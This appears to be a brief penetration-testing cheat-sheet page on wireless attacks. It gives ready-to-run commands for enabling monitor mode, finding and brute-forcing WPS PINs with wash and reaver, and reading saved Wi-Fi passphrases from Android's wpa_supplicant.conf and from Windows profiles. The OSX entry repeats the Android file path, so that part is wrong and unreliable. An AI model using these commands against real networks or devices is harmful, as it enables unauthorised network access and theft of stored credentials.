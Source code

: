 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **WPS** 

The following need to be installed:<br>
* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Client Keys** 

Android:
{% highlight bash %}
$ cat /data/misc/wifi/wpa_supplicant.conf | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
# Requires User Access
$ cat /data/misc/wifi/wpa_supplicant.conf | grep psk=
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profiles
{% endhighlight %}
* http://www.nirsoft.net/utils/wireless_key.html



